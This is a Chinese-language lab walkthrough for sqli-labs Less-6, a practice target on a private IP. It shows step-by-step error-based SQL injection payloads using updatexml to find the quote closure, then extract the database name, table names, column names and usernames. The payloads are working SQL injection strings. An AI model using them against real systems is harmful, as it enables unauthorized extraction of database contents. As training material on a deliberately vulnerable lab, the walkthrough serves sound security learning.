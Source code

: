 ```yaml
---
title: Less - 06
date: 2023-03-13T13:36:44Z
lastmod: 2023-03-13T13:47:20Z
---
```


# Less - 06

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-6/?id=1' #回显正常
http://192.168.225.132/sqli-labs/Less-6/?id=1" #回显错误
http://192.168.225.132/sqli-labs/Less-6/?id=1"--+ #回显正常
```

​![image](assets/image-20230313134050-vh2p9ra.png)​

​![image](assets/image-20230313134109-3ymj9kv.png)​

---

## 2、查看当前的数据库

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230313134347-q52njc3.png)​

## 3、查看security库下的表

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313134504-3afk9jo.png)​

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313134600-xlujihh.png)​

## 5、查看username字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-6/?id=1" and updatexml(1,concat(0x7e,(select username from security.users limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313134652-69ostgm.png)​

##
